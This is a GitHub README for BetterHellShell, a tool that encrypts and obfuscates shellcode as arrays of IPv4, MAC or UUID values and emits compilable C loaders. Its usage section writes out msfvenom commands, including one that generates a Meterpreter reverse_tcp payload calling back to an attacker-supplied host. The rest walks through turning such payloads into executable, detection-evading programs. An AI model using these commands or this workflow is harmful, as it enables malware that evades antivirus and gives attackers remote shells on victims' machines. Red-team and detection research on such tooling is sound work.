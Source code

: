 # BetterHellShell

## Description

**BetterHellShell** is a payload encryption and obfuscation tool designed for obfuscating and encrypting shellcode or payloads.

This tool reads a payload from a file specified by the user, applies the selected encryption method (e.g., XOR, AES, RC4), and then obfuscates the payload using a chosen obfuscation method (MAC address, IPv4 address, UUID). If the payload is not already aligned with the required size, it will be padded to the nearest multiple required for obfuscation.

The program supports:
- Multiple encryption methods (XOR, AES, RC4).
- Several obfuscation techniques (IPv4, IPv6, MAC, UUID).
- Payload padding to ensure the correct size for obfuscation.

The encrypted and obfuscated payload, along with necessary decryption and deobfuscation functions, can then be written to a C file, which can then be compiled and executed or used as a base for more complex programs.

---

## Usage
First you will need to generate your payload:
  - Generate payload to open calc.exe (64-bit):
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o payload.bin
     ```
  - Generate payload to get a meterpreter reverse_tcp (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f raw -o payload.bin
     ```

Then you can run BetterHellShell as follow:
  ```
  BetterHellShell.exe payload.bin aes none > aes_only.c
  ```
  > This will encrypt the payload using AES. Then, the encrypted payload, key, IV, and the decryption function will be written in the `aes_only.c` file.
  
  ```
  BetterHellShell.exe payload.bin rc4 uuid > rc4_uuid.c
  ```
  > This will encrypt the payload using rc4 and then obfuscate in an array of UUIDs. It will then be written with, its key, and the decryption/deobfuscation functions  in the `rc4_uuid.c` file.
  
  ```
  BetterHellShell.exe payload.bin none ipv4 > ipv4_only.c
  ```
  > The payload won't be encrypted, just obfuscated into an array of IPv4 addresses. It will then be written into the `ipv4_only.c` with deobfuscation function.

[!] When compiling your resulted c code, if using AES encryption, make sure that it contains `aes.h` and `aes.c` in your project. You can use the Execute folder-project for ease of compiling.

## Credits
 - This project is a modified version of HellShell by @NUL0x4C and @mrd0x
 - It also uses AES implementation from [tiny-aes-c](https://github.com/kokke/tiny-AES-c)
